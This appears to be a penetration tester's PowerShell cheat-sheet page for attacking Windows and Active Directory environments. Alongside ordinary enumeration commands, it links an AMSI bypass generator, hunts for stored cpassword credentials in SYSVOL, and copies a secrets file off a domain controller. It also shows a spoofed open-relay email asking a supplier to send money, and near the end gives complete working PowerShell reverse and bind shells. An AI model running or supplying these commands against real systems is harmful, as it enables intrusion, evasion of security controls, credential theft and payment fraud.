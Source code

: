 ```yaml
---
title : "powershell"
# pre : '<i class="fas fa-code"></i> '
description : "Windows Powershell handy commands."
date : 2020-04-16T13:14:28+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Powershell

{{%attachments title="PowerShell and ISE executable" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

### Antimalware Scan Interface (AMSI) bypass generator

<https://amsi.fail>

### Active Directory PowerShell Module

This way the [Active Directory PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps) module can be used portable without administrator privileges.

```plain
mkdir C:\temp; iwr https://github.com/crypt0rr/filehosting/raw/master/Microsoft.ActiveDirectory.Management.dll -OutFile C:\temp\1234hoedjevanpapier.dll; Import-Module C:\temp\1234hoedjevanpapier.dll
```

{{%attachments title="PowerShell module" fa_icon_class="far fa-file-code" pattern=".*(dll)"/%}}

PowerShell: `Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose`

### Adjust execution policy

```plain
Set-ExecutionPolicy -scope process -execution bypass
```

### Check 'ms-DS-MachineAccountQuota'

```plain
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### List users with 'Store passwords using reversible encryption' enabled

```plain
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

### Finding cpassword

```powershell
findstr /s /n /i /p cpassword $env:logonserver\sysvol\*
```

### Get members of specific group

```plain
Get-ADGroupMember “Domain Admins”
```

```plain
Get-ADGroupMember “Domain Admins” | select SamAccountName
```

### Get details

```plain
$env:logonserver
```

### Check which users home directories you have access to

```plain
gci C:\users\*\*
```

### Enable access to C-drive in Explorer

```plain
subst z: c:\
```

### Check how many computerobjects can be added by a user

```plain
Get-ADObject ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### Overview domain admins

Where 'Password Never Expires' is set.

```plain
Get-ADGroupMembers 'Domain Admins' | Foreach-Object {
    Get-ADUser -Filter * -Properties | Select-Object Name,DisplayName,sAMAccountName,PasswordLastSet,PasswordNeverExpires
} | Sort-Object Name, PasswordLastSet, PasswordNeverExpires | Format-Table -AutoSize
```

Where 'Password Never Expires' is NOT set.

```plain
Get-NetGroupMember 'Domain Admins' | Foreach-Object {
    Get-NetUser -Filter * | Select-Object Name,DisplayName,sAMAccountName,PwdLastSet,AccountExpires
} | Sort-Object Select-Object Name,PwdLastSet | Format-Table -AutoSize
```

### Check secureboot enabled

```powershell
Confirm-SecureBootUEFI
```

### List users with PasswordNeverExpires enabled

```powershell
Import-Module ActiveDirectory
Get-ADUser -filter * -properties Name, PasswordNeverExpires | where { $_.passwordNeverExpires -eq "true" } | where {$_.enabled -eq "true" }
```

### List Domain Admins where 'Account is sensitive an cannot be delegated' is not set

```powershell
Import-Module ActiveDirectory
Get-ADGroupMember "Domain Admins" | Get-ADUser -Properties AccountNotDelegated | Where-Object {-not $_.AccountNotDelegated} | select AccountNotDelegated,Name,SamAccountName
```

### Change user agent

```powershell
iwr -UserAgent 'Non existing user agent in use'
```

### Enable repository use

For PowerShell 4 and higher. For 5.1 and higher you can try `Register-PSRepository -default` first otherwise use code below.

```plain
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

Install-PackageProvider -Name NuGet -RequiredVersion 2.8.5.208 -Force

Register-PSRepository -Name PSGallery -SourceLocation https://www.powershellgallery.com/api/v2/ -PublishLocation https://www.powershellgallery.com/api/v2/package/ -ScriptSourceLocation https://www.powershellgallery.com/api/v2/items/psscript/ -ScriptPublishLocation https://www.powershellgallery.com/api/v2/package/ -InstallationPolicy Trusted -PackageManagementProvider NuGet

Install-Module $ModuleName -scope CurrentUser
```

### Copy remote file to local (WinRM)

```plain
$ses = New-PSSession -ComputerName DC01 -Credentials $(Get-Credential)
Copy-Item -FromSession $ses C:\Users\adm-johndo\DC01\secrets.txt Z:\localdisk\secrets.txt
```

### Open Relay

```plain
Send-MailMessage -From 'Not John Do <finance@offsec.nl>' -To 'supplier@offsec.nl' -Subject 'Please send money' -SmtpServer 'openrelay.offsec.nl'
```

### Download a file from a remote resource

When ran from `cmd.exe` add `powershell -c "<command>"`

```plain
(new-object System.Net.WebClient).DownloadFile('https://www.7-zip.org/a/7z2201-x64.exe','C:\Users\crypt0rr\Desktop\7z2201-x64.exe')
```

## Shells (reverse/bind)

### Reverse shell

```plain
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<TARGET-IP-HERE>',<TARGET-PORT-HERE>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind shell

* `0.0.0.0` - will bind to every IP-address available on the local system

```plain
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<TARGET-PORT-HERE>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

### Port Scan

```plain
$ Test-NetConnection DC01.offsec.nl -port 389

ComputerName     : DC01.offsec.nl
RemoteAddress    : 10.10.10.10
RemotePort       : 389
InterfaceAlias   : Ethernet
SourceAddress    : 10.0.0.4
TcpTestSucceeded : True
```
